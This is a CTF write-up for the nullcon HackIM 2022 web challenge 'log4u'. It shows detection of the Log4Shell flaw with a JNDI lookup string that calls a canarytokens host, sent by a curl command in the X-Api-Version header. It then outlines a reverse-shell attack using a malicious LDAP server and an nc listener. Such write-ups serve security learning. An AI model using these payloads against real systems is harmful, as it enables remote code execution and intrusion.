 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - nullcon HackIM 2022
  - CTF Jeo
tags:  
  - CTF
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell

## Upload reverse shell 
![Screenshot_2022-04-08_23_47_51](https://user-images.githubusercontent.com/45040001/162830955-a74283af-35c7-454e-8a61-dd7534a3ff69.png)

## Final flag
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)
